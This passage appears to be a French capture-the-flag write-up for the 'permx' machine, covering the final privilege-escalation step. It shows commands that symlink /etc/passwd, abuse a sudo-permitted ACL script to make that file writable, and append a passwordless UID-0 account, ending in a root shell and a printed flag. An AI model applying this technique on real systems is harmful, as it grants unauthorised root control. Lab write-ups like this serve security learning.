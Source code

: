Alors j'ai comme idée de faire un fichier root.txt qui aura un lien symbolink pointant sur /root/root.txt

```bash
mtz@permx:~$ cd root/  
mtz@permx:~/root$ touch root.txt  
mtz@permx:~/root$ ls -l  
total 0  
-rw-rw-r-- 1 mtz mtz 0 Sep  3 15:52 root.txt  
mtz@permx:~/root$ cd ..  
mtz@permx:~$ ln -s ./root/root.txt /root/root.txt
ln: failed to create symbolic link '/root/root.txt': Permission denied
```

mais ça ne marche pas :"(

```bash
mtz@permx:/opt$ sudo ./acl.sh mtz 777 /home/mtz/./../../root/root.txt  
Access denied.
```

Bon après avoir passé pas mal de temps, je trouve une solution.

Il faut donc commencer par créer le lien symbolink

```bash
mtz@permx:~$ ln -sf /etc/passwd /home/mtz/payload
```

je mets l'option f en plus pour forcer la création si jamais il veut pas.

ensuite je fais appel au script en me donnant les droits d'accès total pour payload qui est donc un lien de passwd.

```bash
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/payload
```

Puis il me reste plus qu'à créer un user que j'ai nommé pwnme ici, en lui enlevant son mdp et lui donnant les privilèges root.

```bash
mtz@permx:~$ echo "pwnme::0:0:pwnme:/root:/bin/bash" >> /home/mtz/payload
```

et voilà plus qu'à passer en tant que pwnme et on est root :D

```bash
mtz@permx:~$ su pwnme  
root@permx:/home/mtz# cd /root
root@permx:~# ls -l  
total 12  
drwxr-xr-x 2 root root 4096 Jun  5 12:25 backup  
-rwxr-xr-x 1 root root  354 Jun  6 05:25 reset.sh  
-rw-r----- 1 root root   33 Sep  8 16:55 root.txt  
root@permx:~# cat root.txt    
5b3a33094ad3db37ffdba58e922b31c7
```

